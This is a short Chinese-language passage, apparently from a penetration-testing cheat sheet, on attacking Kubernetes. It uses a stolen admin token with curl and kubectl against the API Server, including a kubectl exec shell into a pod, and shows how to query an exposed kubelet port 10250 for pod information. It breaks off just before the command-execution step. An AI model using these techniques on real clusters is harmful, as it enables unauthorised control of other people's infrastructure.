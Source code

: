 ## kubernetes

kubernetes简称k8s，简单理解是拿来自动化部署容器、管理容器的框架。

### API Server攻击

当我们获取到admin token时，可以操作API Server来控制集群。

```plain
curl -H "Authorization: Bearer $TOKEN" $APISERVER/api  --insecure
```

也可以把admin token放置在~/.kube/config文件中，然后利用命令行工具进行后续操作：

1.  `kubectl get namespaces`
2.  `kebectl get pods -n {namespaces}`
3.  `kubectl exec -it -n {namespace} {podname} /bin/sh`

### kubelet 10250端口攻击

10250端口是kubelet API的HTTPS端口，该端口提供了pod和node的信息，如果该端口对外开放，攻击者可以利用公开api来获取敏感信息，甚至执行命令。

```plain
curl -k https://host:10250/pods
```

![image-20201210191528031](assets/1700701638-7b21b537a7699f6e22712c0619a6cdfd.png)  
根据上述获取到的信息在容器中执行命令：
